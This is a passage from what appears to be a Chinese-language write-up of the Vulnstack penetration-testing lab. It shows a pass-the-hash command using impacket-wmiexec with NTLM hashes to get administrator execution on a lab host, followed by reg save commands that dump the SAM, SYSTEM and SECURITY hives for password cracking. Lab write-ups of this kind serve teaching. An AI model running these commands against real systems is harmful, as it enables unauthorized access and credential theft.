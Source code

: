 

以下命令利用`impacket-wmiexec`工具以及提供的NTLM哈希值，在IP地址为`10.10.10.10`的远程Windows服务器上以`administrator`用户的身份执行命令

```
proxychains impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24 administrator@10.10.10.10
```

> `impacket-wmiexec`：这是Impacket库中的一个工具，它可以在远程Windows服务器上执行命令
>
> `-hashes`：这个选项允许你提供NTLM哈希值来进行身份验证，而不是使用密码，在这个命令中，你提供了一个LM哈希值（`aad3b435b51404eeaad3b435b51404ee`）和一个NTLM哈希值（`161cff084477fe596a5db81874498a24`）
>
> `./administrator@10.10.10.10`：这表示你希望以`administrator`用户的身份登录到IP地址为`10.10.10.10`的远程服务器

![image-20230528002213882](vulnstack靶场系列二/image-20230528002213882.png)



`reg save`命令将指定注册表键保存到指定文件，其目的是为了后续破解用户密码

- `reg save HKLM\SYSTEM system.save` ：`HKLM\SYSTEM` 键包含了关于操作系统配置的信息
- `reg save HKLM\SAM sam.save` ：`HKLM\SAM` 键包含了关于用户和用户组的信息
- `reg save HKLM\SECURITY security.save`：`HKLM\SECURITY` 键包含了关于系统安全设置的信息

<img src="vulnstack靶场系列二/image-20230528133032137.png" alt="image-20230528133032137" style="zoom:67%;" />	
